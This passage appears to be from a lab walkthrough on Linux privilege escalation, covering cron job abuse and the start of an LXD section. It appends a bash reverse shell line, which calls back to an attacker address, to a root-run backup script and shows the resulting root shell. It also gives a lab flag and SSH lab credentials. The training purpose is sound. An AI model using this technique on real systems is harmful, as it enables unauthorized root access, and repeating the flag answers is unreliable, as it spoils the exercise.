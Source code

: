 Subsequently, students need to edit the script `backup.sh` under the directory `/dmz-backups/` and append a reverse shell one-liner:

Code: shell

```shell
echo 'bash -i >& /dev/tcp/PWNIP/443 0>&1' >> /dmz-backups/backup.sh
```

```
htb-student@NIX02:~$ echo 'bash -i >& /dev/tcp/10.10.14.25/443 0>&1' >> /dmz-backups/backup.sh
```

After waiting for a bit, students will receive a root shell on the `nc` listener:

```
Ncat: Connection from 10.129.150.148.
Ncat: Connection from 10.129.150.148:52132.
bash: cannot set terminal process group (1658): Inappropriate ioctl for device
bash: no job control in this shell
root@NIX02:~#
```

At last, students need to print out the contents of the flag file "flag.txt" at `/root/cron_abuse/`:

Code: shell

```shell
cat /root/cron_abuse/flag.txt
```

```
root@NIX02:~# cat /root/cron_abuse/flag.txt

cat /root/cron_abuse/flag.txt
14347a2c977eb84508d3d50691a7ac4b
```

Answer: `14347a2c977eb84508d3d50691a7ac4b`

# LXD

## Question 1

### "Escalate the privileges and submit the contents of flag.txt as the answer."

Students first need to connect to the spawned target machine using `SSH` and the credentials `htb-student:HTB_@cademy_stdnt!`:

Code: shell

```shell
ssh htb-student@STMIP
```

```
┌─[eu-academy-1]─[10.10.15.63]─[htb-ac-594497@htb-h5qyjhxa2m]─[~]
└──╼ [★]$ ssh htb-student@10.129.23.7
The authenticity of host '10.129.23.7 (10.129.23.7)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.23.7' (ECDSA) to the list of known hosts.
htb-student@10.129.23.7's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.19.0-051900-generic x86_64)

<SNIP>

htb-student@ubuntu:~$ 
```